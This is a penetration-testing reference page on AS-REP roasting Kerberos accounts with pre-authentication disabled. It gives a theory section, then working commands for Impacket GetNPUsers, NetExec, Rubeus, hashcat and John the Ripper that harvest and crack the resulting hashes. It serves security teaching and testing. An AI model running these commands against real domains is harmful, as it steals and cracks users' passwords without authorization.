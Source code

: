 ## Theory
The Kerberos authentication protocol works with tickets in order to grant access. A ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to ASREProast).

The pre-authentication requires the requesting user to supply its secret key (DES, RC4, AES128 or AES256) derived from the user password. Technically, when asking the KDC (Key Distribution Center) for a TGT (Ticket Granting Ticket), the requesting user needs to validate pre-authentication by sending a timestamp encrypted with it's own credentials. It ensures the user is requesting a TGT for himself. Once validated, the TGT is then sent to the user in the KRB_AS_REP message, but that message also contains a session key. That session key is encrypted with the requested user's NT hash.

Because some applications don't support Kerberos preauthentication, it is common to find users with Kerberos preauthentication disabled, hence allowing attackers to request TGTs for these users and crack the session keys offline. This is ASREProasting.

While this technique can possibly allow to retrieve a user's credentials, the TGT obtained in the KRB_AS_REP messages are encrypted cannot be used without knowledge of the account's password.
## Exploit
=== "UNIX-like"
    The Impacket script GetNPUsers (Python) can get TGTs for the users that have the property Do not require Kerberos preauthentication set.
    ```bash
    # users list dynamically queried with an LDAP anonymous bind
    GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

    # with a users file
    GetNPUsers.py -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

    # users list dynamically queried with a LDAP authenticated bind (password)
    GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

    # users list dynamically queried with a LDAP authenticated bind (NT hash)
    GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
    ```

    This can also be achieved with NetExec (Python).
    ```bash
    netexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast ASREProastables.txt --kdcHost $KeyDistributionCenter
    ```
=== "Windows"
    Rubeus can be use to get user
    ```bash
    Rubeus.exe asreproast  /format:hashcat /outfile:ASREProastables.txt
    ```
Depending on the output format used (hashcat or john), hashcat and JohnTheRipper can be used to try cracking the hashes.
```bash
hashcat -m 18200 -a 0 ASREProastables.txt $wordlist
```
```bash
john --wordlist=$wordlist ASREProastables.txt
```